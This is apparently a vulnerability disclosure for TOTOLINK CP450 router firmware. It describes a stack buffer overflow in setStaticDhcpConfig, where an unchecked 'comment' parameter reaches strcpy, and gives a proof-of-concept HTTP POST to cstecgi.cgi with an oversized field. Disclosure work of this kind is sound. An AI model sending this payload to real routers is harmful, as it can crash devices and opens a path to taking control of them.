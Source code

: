 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setStaticDhcpConfig`, attackers can post the parameter `comment` to `v9` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 58, the call to function `strcpy` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 308
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/internet/static_dhcp.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setStaticDhcpConfig",
    "comment": "a"*0x100
}
```

![image-20240421163827190](./img/2.png)
